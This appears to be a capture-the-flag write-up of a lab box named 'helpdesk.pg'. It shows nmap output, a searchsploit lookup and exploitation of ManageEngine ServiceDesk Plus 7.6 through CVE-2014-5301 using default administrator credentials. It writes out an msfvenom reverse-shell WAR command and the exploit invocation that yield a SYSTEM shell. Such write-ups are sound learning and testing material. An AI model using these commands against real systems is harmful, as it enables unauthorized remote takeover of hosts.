






# Recon

## nmapAutomator.sh (Full)
```
$ sudo ./nmapAutomator.sh -H helpdesk.pg -t Full -o full

PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Windows Server (R) 2008 Standard 6001 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp open  ms-wbt-server Microsoft Terminal Service
8080/tcp open  http          Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
| http-cookie-flags: 
|   /: 
|     JSESSIONID: 
|_      httponly flag not set
|_http-title: ManageEngine ServiceDesk Plus
Service Info: Host: HELPDESK; OS: Windows; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_server_2008:r2

Host script results:
|_clock-skew: mean: 2h24m02s, deviation: 4h02m29s, median: 4m02s
| smb-os-discovery: 
|   OS: Windows Server (R) 2008 Standard 6001 Service Pack 1 (Windows Server (R) 2008 Standard 6.0)
|   OS CPE: cpe:/o:microsoft:windows_server_2008::sp1
|   Computer name: HELPDESK
|   NetBIOS computer name: HELPDESK\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-08-30T16:01:57-07:00
|_nbstat: NetBIOS name: HELPDESK, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:ba:dc:16 (VMware)
| smb2-security-mode: 
|   2.0.2: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-08-30T23:01:57
|_  start_date: 2022-08-30T22:52:45
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```

# Enumeration

## Port 8080

Since this is the only port with http service, I start here. We see ManageEngine ServiceDesk Plus version 7.6.0.



A quick `searchsploit "manageengine 7.6"` returns a SQLi vuln for a very old CVE-2014-5301.



# Exploit

I end up using this poc:
https://raw.githubusercontent.com/PeterSufliarsky/exploits/master/CVE-2014-5301.py

I see that credentials are required, so Googling for the default credentials returns `administrator:administrator`, and to my surprise this works!



Now I'll create an evil `.war` using `msfvenom` for my reverse shell.

`msfvenom -p java/shell_reverse_tcp LHOST=tun0 LPORT=80 -f war > shell.war`



We can now run the script as so:

`python3 CVE-2014-5301.py helpdesk.pg 8080 administrator administrator shell.war`



With my listener up on port 80, we quickly get a shell back as `nt authority\system`.


